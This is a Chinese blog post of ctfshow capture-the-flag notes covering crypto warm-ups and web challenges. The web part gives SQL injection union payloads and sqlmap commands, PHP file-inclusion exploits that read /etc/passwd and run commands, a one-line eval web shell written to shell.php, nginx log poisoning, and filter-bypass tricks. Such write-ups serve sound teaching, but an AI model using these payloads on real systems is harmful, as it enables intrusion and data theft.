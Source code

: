 ```yaml
---
layout:     post
title:      2021-08-09-ctfshow做题笔记
subtitle:   2021-08-09-ctfshow做题笔记
date:       2021-8-9
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - ctfshow
---
```


**作者：鸿鹄（阳阳）**

## crypto
#### crypto签到-14
这些题目包含了常用的密码学
- rot密码
- 凯撒密码
- jsfuck、表情密码（均可直接在控制台运行出来）
- OoK加密
- brainfuck
  * https://www.splitbrain.org/services/ook
- [rsa算法](https://baike.sogou.com/v453178.htm?fromTitle=rsa)   
  * https://mp.weixin.qq.com/s?src=11&timestamp=1628757653&ver=3247&signature=rQMa*8AVCpkLz3zO51g4PQnvqRrUmMNHxGK2dGg00-NV4J9naXyDWYcd5s05PJmu6uCDkFTw3j7GZHj8-FGPRmdLvf4xfcLwz7ZtULSqaLD4ToQ-MAnT5as8rZOXFwgx&new=1
- Rabbit加密
- serpent加密
  * http://serpent.online-domain-tools.com/
- Quoted-printable解码
  * http://web.chacuo.net/charsetquotedprintable/
- md5（32位）
- 埃特巴什码
- 脚本解密（大部分基于字符）


## web

#### web 签到题

1. F12打开控制台,源码注释发现字符串,根据经验进行base64解码即可.[https://base64.us/](https://base64.us/)
2. 也可以view-source

#### web2

- 方法一

简单的sql注入,我们使用万能密码发现注入点在username,并且有回显

[![f1vRnP.png](https://z3.ax1x.com/2021/08/09/f1vRnP.png)](https://imgtu.com/i/f1vRnP)

然后进行常规手工注入即可

```mysql
sql手工注入常用语句：

普通语句：schema_name——数据库名；table_name——表名；column_name——字段名；

查询数据库：select schema_name from information_schema.schemata#

　　　　　　slelect database()#

查询数据库表：select table_name from information_schema.tables where table_schema='数据库名'#

查询字段名：select column_name from infromation_schema.columns where table_name='表名'#

查询字段内容：select * from 表名#
```



```sql
admin' or 1=1 order by 3#	//有回显
admin' or 1=1 order by 4#	//无回显

admin' or 1=1 union select 1,2,3#	//位置是2

admin' or 1=1 union select 1,database(),3#	//数据库名字是web2

admin' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#	//表名字为flag,user

admin' or 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flag"#	// 字段名为flag

admin' or 1=1 union select 1,flag,3 from flag#	//得到flag
```

ctfshow{add81b69-8f21-4e43-b091-105ef61e4a71}

- 方法二

  直接sqlmap跑即可

  1. 把之前抓取的数据复制到sqlmap根目录下test.txt内[![f39XY8.png](https://z3.ax1x.com/2021/08/09/f39XY8.png)](https://imgtu.com/i/f39XY8)

  2. 保存完成后开始跑

      ```
      python sqlmap.py -r test.txt --dbs
      python sqlmap.py -r test.txt -D web2 --tables
      python sqlmap.py -r test.txt -D web2 -T flag --columns
      python sqlmap.py -r test.txt -D web2 -T flag -C flag --dump
      ```

#### web3

 `<?php include($_GET['url']);?>`

文件包含，发现测试`url=/etc/passwd`有回显[![f3ZFRx.png](https://z3.ax1x.com/2021/08/09/f3ZFRx.png)](https://imgtu.com/i/f3ZFRx)

- 方法一

我们利用php伪协议 php://input post提交命令，hackbar不太行，使用bp

<?php system("ls") ?>

<?php system("cat ctf_go_go_go") ?>

ctfshow{ff020599-61ce-47e7-877d-37a36638edd5}

- 方法二

?url=data:*//text/plain,<?php print_r(glob("\*")); ?>*

- 方法三

url=data:text/plain,<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['hack']);?>")?>

然后进行菜刀链接

- 方法四

因为是nginx服务器也可以使用日志包含

#### web4

使用nginx的日志包含

?url=/var/log/nginx/access.log可以打开

然后把一句话写到ua头中

然后进行菜刀链接即可

#### web5

```php
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>
```

> **代码审核：**get传参绕过
>
> ctype_alpha ( string $text ) : bool
>
> 做纯字符检测如果在当前语言环境中 text 里的每个字符都是一个字母，那么就返回true，反之则返回false。
>
> 
>
> is_numeric() 函数
>
> 用于检测变量是否为数字或数字字符串。如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE。
>
> 同时php弱类型比较，当比较的双方类型不相同时，会先转化成相同的再进行比较，如果转化之后都是以0e为开头的字符串，则==成立。

取v1=QNKCDZO v2=240610708

#### web6

逐个字符输入后发现过滤了空格，一般空格被过滤有如下替换方法
```
/**/
()
回车(url编码中的%0a)
`(tab键上面的按钮)
tab
两个空格
```
然后使用基本的模板注入即可

#### web7
当有空格时会报错,用/**/绕过,得到注入点
然后进行模板注入即可

只是6和7出现注入点的形式不同
#### web8
过滤了很多，空格、单引号、union等等
使用盲注




